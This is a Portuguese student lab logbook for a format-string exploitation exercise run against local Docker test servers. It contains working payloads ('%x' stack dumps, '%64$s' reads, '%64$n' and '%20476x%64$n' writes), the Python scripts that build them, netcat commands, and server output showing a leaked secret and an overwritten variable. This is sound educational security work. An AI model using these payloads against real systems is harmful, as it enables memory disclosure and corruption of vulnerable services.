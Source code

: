 # Semana #6

## Format-String

### Tarefa 0
Antes de comecar o desenvolvimento deste laboratório desligamos a randomização de endereços com o seguinte comando, para que fosse possível descobrir a localização dos endereços do programa:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

Compilamos o código e fizemos a instalação como indicados, aparecendo o seguinte warning:

<img src="./images/logbook7/log7t0_pt1.png">

Depois, corremos o comando `docker-compose up` para iniciar os containers e, de seguida, os comandos `docker ps` e `docksh <id>` 

<img src="./images/logbook7/log7t0_pt2.png">

iniciando assim uma shell nesse container. 


# Tarefa 1

Inicialmente, corremos `$ echo hello | nc 10.9.0.5 9090`, enviando uma mensagem benigna para os servidor e foram impressas as mensagens esperadas no terminal. 

<img src="./images/logbook7/log7t1_pt1.png">

De seguida, o objetivo era fornecer um dado input ao servidor, de tal forma que o programa crashasse ao tentar imprimi-lo na função `myprintf()`. Desta forma, guardamos num ficheiro test.txt o seguinte conteúdo: 

<img src="./images/logbook7/log7t1_pt2.png"><br>

E corremos:

```bash
$ cat test.txt | nc 10.9.0.5 9090
```

Como não observamos a mensagem `Returned properly`, concluímos que o programa crashou. Mas é de notar, como dito no enunciado, que o programa do **servidor** não crashou - na verdade crashou o programa **`format`** que corre num processo filho gerado pelo processo do servidor.

<img src="./images/logbook7/log7t1_pt3.png"><br>

Apenas fornecemos `'%s'*10` para que o programa tentasse ler endereços de memória inválidos e crashasse, tal como esperado. 


### Tarefa 2

#### A)
Foram necessários 64 `%x` para conseguirmos visualizar o conteúdo que demos como input na stack, em hexadecimal. O conteúdo do ficheiro `task2a.txt`foi:

```GGGG%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x```

Sabemos que `GGGG` corresponde a `47474747` em hexadecimal.
Corremos o seguinte comando:
```bash
$ cat task2a.txt | nc 10.9.0.5 9090
```
E pudemos verificar no output do servidor que o conteúdo do ficheiro foi impresso na stack, como esperado.

<img src="./images/logbook7/log7t2_pt1.png"><br>

#### B)

A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<img src="./images/logbook7/log7t2_b.png"><br>

Também sabemos que ao enviar `%s`, a função `printf` vai tentar ler uma string de um endereço. Na tarefa anterior, aprendemos que o numero de `%x` necessários para chegar ao inicio da stack era 64, portanto, nós podemos especificar qual é o endereço que queremos ler, adicionando um `offset` de 64 entre `%` e `s`. Assim, o nosso programa vai ler uma string do endereço escrito na 64ª posição da stack, que é o endereço da mensagem secreta. 

Para obter o valor da mensagem secreta guardada na área da heap, criámos um script de python para criar o ficheiro `task2b.txt` com o seguinte conteúdo:
```python
tmp = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

with open('task2b.txt', 'wb') as f:
  f.write(tmp)
```

Corremos o comando:
```bash
$ cat task2b.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro como input para o servidor. Analisámos o *output* do servidor e concluímos que a mensagem secreta, tal como é apresentada na seguinte imagem, é: `A secret message`.
 
<img src="./images/logbook7/log7t2_b2.png"><br>



### Tarefa 3

#### A)
A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<img src="./images/logbook7/log7t3_a.png"><br>

Para mudar o valor do endereço da variável *target* que está definida no programa do servidor, criámos o seguinte script de python para criar o ficheiro `task3a.txt` com o seguinte conteúdo:

```python
tmp = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

with open('task3a.txt', 'wb') as f:
  f.write(tmp)
```

Tal como na tarefa anterior, nós procuramos pelo endereço da variável *target* no *output* do servidor. Desta vez, adicionámos um `%n`. Este `format specifier` escreve o tamanho do input no endereço especificado em `%n`, neste caso, no endereço `0x080e5068`.

O número de bytes escritos até ao momento é 4 devido ao endereço, por isso, este número será o número guardado no endereço da variável.

Corremos o comando:
```bash
$ cat task3a.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro `task3a.txt` como input para o servidor.


Ao examinar o *output* do servidor, podemos reparar que o valor da variável *target* foi, com sucesso, alterado para `0x00000004`, como esperado.

<img src="./images/logbook7/log7t3_a2.png"><br>


#### B)

Para mudar o conteúdo para um valor específico de 0x5000, construímos o nosso script da mesma forma com algumas alterações. Criamos o seguinte script em Python para construir o nosso ficheiro, chamado badfile:

```python
import sys

conteudo = (0x080e5068).to_bytes(4, byteorder='little') + ("%20476x%64$n").encode('latin-1')

# Escrever o conteúdo em badfile
with open('badfile', 'wb') as f:
  f.write(conteudo)
```

Sabemos que 0x5000 é 20480 em decimal, mas não podemos simplesmente escrever 20480 bytes no ficheiro, pois sabemos da tarefa anterior que o servidor aceita no máximo 1500 bytes de nós.

Primeiro, escrevemos os 4 bytes para o endereço.

Depois, os restantes 20476 bytes serão preenchidos usando o especificador de formato %x com uma largura fixa. Com %[largura]x -> %20476x, o programa irá ler 20476 bytes e tentará imprimi-los.

Por fim, o especificador %n irá impedi-lo de imprimir esses bytes, mas ainda os contará, então o valor armazenado no endereço será o valor que queremos.

```
Starting server-10.9.0.5 ... done
Starting server-10.9.0.6 ... done
Attaching to server-10.9.0.5, server-10.9.0.6
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd720
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 16 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd648
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | (*)The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)`
```

Depois de examinar a saída do servidor, podemos ver que o valor da variável alvo (após) foi alterado com sucesso para 0x00005000.

(*) - Na saída do servidor, porque %n imprime espaços vazios, a saída imprimiu muitos espaços vazios. Isto foi removido para concisão.
